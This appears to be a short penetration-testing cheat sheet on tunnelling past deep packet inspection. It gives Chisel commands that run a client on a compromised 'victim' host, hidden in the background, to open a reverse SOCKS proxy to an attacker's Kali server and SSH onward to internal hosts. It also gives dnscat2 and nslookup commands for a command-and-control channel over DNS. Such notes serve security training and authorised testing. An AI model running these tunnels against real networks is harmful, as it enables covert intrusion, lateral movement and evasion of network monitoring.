 # Tunneling through Deep Packet Inspection

## Chisel

Run a Chisel server on Kali:
```
chiselkali$ chisel server --port $KaliPort --reverse
```
then monitor the traffic in case it doesn't work:
```
chiselkali$ sudo tcpdump -nvvvXi $SomeInterface tcp port $KaliPort
```
Send the Chiser client to the target and execute it:
```
victim$ chisel client $IpChiselKali:$KaliPort R:socks > /dev/null 2>&1 &
```
Check the opened port on Kali to reuse it:
```
chiselkali$ ss -lntpu # check port for the Socks proxy
```
and use the port to send Socks command (`nc` doesn't support proxying, instead run `ncat`):
```
kali$ sudo apt-get install ncat
kali$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:$PortCheckedWithSs %h %p' hackeduser@$IpDbIn
```

## DNS

### Nslookup

```
sudo dnsmasq -C dnsmasq.conf -d
sudo tcpdump -i ensXpY udp port 53
resolvectl status
nslookup somesubzone.mydnsserver.com [victiminternaldns]
```

### Dnscat2

```
dnskali$ dnscat2-server mytld.com
victim$ ./dnscat mytld.com
dnscat2> windows
dnscat2> window -i 1
command> ?
command> listen 127.0.0.1:$AttackerPort $IpDeepIn:$PortService
dnskali$ someservice localhost:$PortService
```
